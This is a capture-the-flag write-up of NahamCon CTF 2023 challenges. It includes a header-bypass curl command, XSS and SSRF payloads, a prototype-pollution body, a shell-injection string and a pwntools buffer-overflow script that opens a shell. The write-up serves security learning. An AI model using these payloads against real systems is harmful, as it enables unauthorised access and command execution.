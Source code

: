 ```yaml
---
title: "NahamCon CTF 2023 – Multiple Challenges" 
date: 2023-05-07 
category: Mixed 
platform: NahamCon CTF 2023 
author: Vaishnav Baraskar
tags: ["CTF", "NahamCon", "Mixed Challenges", "Web", "Crypto", "Forensics", "Pwn", "Reverse Engineering", "CTF 2023", "Vaishnav Baraskar"]
---
```


## 0x00 – Prologue

Sometimes a CTF throws everything at you: logic bugs, broken binaries, half-documented APIs, and the occasional ancient Star Wars meme. NahamCon 2023 was that kind of ride. Our team, SneakBytes, dove in headfirst and came out the other side with a trail of solved challenges, caffeinated brains, and some solid lessons.

This writeup focuses on key challenges from Web, Binary, OSINT, and Misc categories.

---

## 0x01 – Obligatory (Web Challenge)

This was a classic web logic challenge. You had a login page and a basic comment board.

Nothing stood out until we noticed this in the JS:

```js
if (username === 'admin' && password === 'Obligatory2023') {
    window.location.href = "/super-secret";
}
```

But the `/super-secret` page returned 403. So the logic must be client-side only.

Tried bypassing using curl:

```bash
curl -b "auth=admin" https://ctf.nahamcon.com/super-secret
```

Still blocked. Then realized the server wasn’t looking at cookies. It needed a specific `X-Auth` header:

```bash
curl -H "X-Auth: Obligatory2023" https://ctf.nahamcon.com/super-secret
```

Boom. Flag dropped.

---

## 0x02 – Stickers (Web Challenge)

Page lets you create a custom sticker from input. Server-side rendering with `wkhtmltoimage`.

We tried payloads like:

```html
<img src=x onerror=alert(1)>
```

Didn’t pop. But saw this in network logs:

```txt
/sticker?html=<markup>
```

Rendering engine was actually including HTML in a full file:

```html
<html>
<body>
{{ user_input }}
</body>
</html>
```

So we escalated to SSRF:

```html
<img src="http://localhost:1337/admin">
```

And... yes. That worked. It leaked the flag.

---

## 0x03 – Star Wars (Web Challenge)

Star Wars API challenge. App queried SWAPI.dev with user input.

Simple prototype pollution:

```json
{"__proto__":{"admin":true}}
```

Sent this to `/api/user`, checked `/admin` endpoint again. Now accessible.

Flag printed with a Yoda quote. Worth it.

---

## 0x04 – Zombie (Misc Challenge)

This one was different. A binary that simulated zombie attacks. You had to survive the waves by issuing shell commands.

The hint: "Keep the zombies at bay with knowledge."

It was parsing input using `system()` directly:

```c
scanf("%s", cmd);
system(cmd);
```

That meant shell injection.

Payload:

```bash
sleep 1; cat flag.txt
```

Flag popped on round 3.

---

## 0x05 – Geosint x2 (OSINT)

First one gave a random photo.

Used `exiftool`:

```bash
exiftool image.jpg
```

Found GPS coords. Dropped into Google Maps, saw it was a cafe in Buenos Aires. The chalkboard in the photo had a code on it. That was the flag.

Second one had a blurred building.

Used `tineye` to reverse search and then ran it through Yandex Image Search. Turned out to be a museum in Prague. Flag was spray-painted on a wall in the source photo.

---

## 0x06 – Open Sesame (Binary Exploitation)

32-bit ELF.

Had this function:

```c
void check_password() {
    char buf[64];
    gets(buf);
    if (strcmp(buf, "opensesame") == 0) {
        printf("Access granted\n");
        system("/bin/sh");
    }
}
```

Straight buffer overflow.

Overflowed the return address to point at `system("/bin/sh")`.

Used pwntools:

```python
from pwn import *

elf = ELF("open_sesame")
p = process("./open_sesame")

payload = b"A" * 76 + p32(elf.symbols['system']) + b"JUNK" + p32(next(elf.search(b"/bin/sh")))
p.sendline(payload)
p.interactive()
```

Shell dropped, flag grabbed.

---

## 0x07 – Outro

This was a chaotic set of challenges, but fun as hell. Each one made us switch gears: from XSS to binary abuse, from camera metadata to logic bombs.

Lessons?

- Never trust frontend auth
- SSRF hides in weird places
- Classic buffer overflows are alive and well
- Metadata is gold

NahamCon never disappoints. This one kept us sharp and gave us some solid writeups.

---

## 0x08 – Tools Used

- Burp Suite
- curl, exiftool, pwntools
- Yandex/TinEye reverse image search
- pwndbg / gdb
- VSCode + insomnia for APIs

---

